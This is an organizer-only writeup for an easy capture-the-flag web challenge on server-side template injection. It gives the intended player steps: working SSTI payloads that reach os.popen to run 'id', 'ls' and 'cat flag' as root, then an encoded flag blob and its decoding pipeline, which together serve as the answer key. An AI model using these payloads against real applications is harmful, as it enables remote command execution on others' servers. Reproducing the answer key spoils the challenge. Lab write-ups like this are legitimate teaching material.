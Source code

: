 >>writeup/solution.md — Organizer-only writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy
 
---

### This writeup describes the intended attack flow and the decode steps players will need to perform. Keep this file private.

## Attack flow (what the player will do inside the app)

+ 1.In the search box the player first submits:
```{{7*7}}```
	This will render and show 49.

+ 2.Next they try to gather system information using SSTI:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

	This will show something like:
```uid=0(root) gid=0(root) groups=0(root)```

+ 3.Then they list files in the current directory:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}```

	This will show entries including flag (and other files).

+ 4.Finally they read the flag file with:
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}```

+ The application will return the encoded blob (exact output below):
```
%31%30%30%31%30%31%30%31%30%31%30%31%31%30%30%30%31%31%30%31%30%31%31%30%31%30%31%31%31%30%31%31%30%31%31%30%30%31%31%30%31%30%31%61%31%31%30%30%31%31%30%30%30%31%30%30%30%31%30%30%31%31%31%30%31%31%31%31%31%30%30%30%31%31%30%31%31%31%31%31%31%31%30%31%30%30%30%31%31%31%31%31%30%30%31%30%31%31%30%30%31%31%31%30%30%31%31%31%31%30%30%31%30%31%31%30%31%31%31%31%31%31%31%30%31%31%30%66%31%30%31%61%31%30%30%31%31%31%30%30%31%30%30%30%31%30%30%31%30%30%30%30%30%31%30%31%30%30%30%31%30%30%31%30%30%30%31%31%30%30%30%30%30%31%31%31%31%31%31%31%30%31%30%31%30%31%30%30%30%31%30%31%30%31%31%31%31%31%30%31%31%31%30%31%30%31%30%31%31%31%30%30%31%30%30%64%31%30%31%31%31%30%31%31%30%31%31%30%31%31%30%31%30%30%31%31%31%31%30%31%31%30%31%30%30%65%31%30%31%31%30%31%31%30%31%30%31%31%30%30%30%30%30%30%30%31%30%31%30%31%31%31%30%30%30%30%62%31%30%31%30%31%30%31%30%31%30%30%31%31%30%30%31%64%31%31%64```

---

### Decode pipeline (organizer helper)

To retrieve the final CTF_flag{...}, apply the following transforms in order to the blob returned by cat flag:

+ 1.URL-decode the percent-encoded string (convert %31 → 1, %30 → 0, %61 → a, etc.).

+ 2.Binary : interpret the result as a sequence of ASCII 0/1 characters (group into 8-bit chunks) and convert each byte to its numeric value.

+ 3.Hex ASCII : interpret the bytes from step 2 as ASCII hex characters (e.g. 43 54 46 5f ...) and convert the hex to raw bytes.

+ 4.Base64-decode the resulting bytes to obtain the final CTF_flag{...} text.

![Step 1](images/1.png)
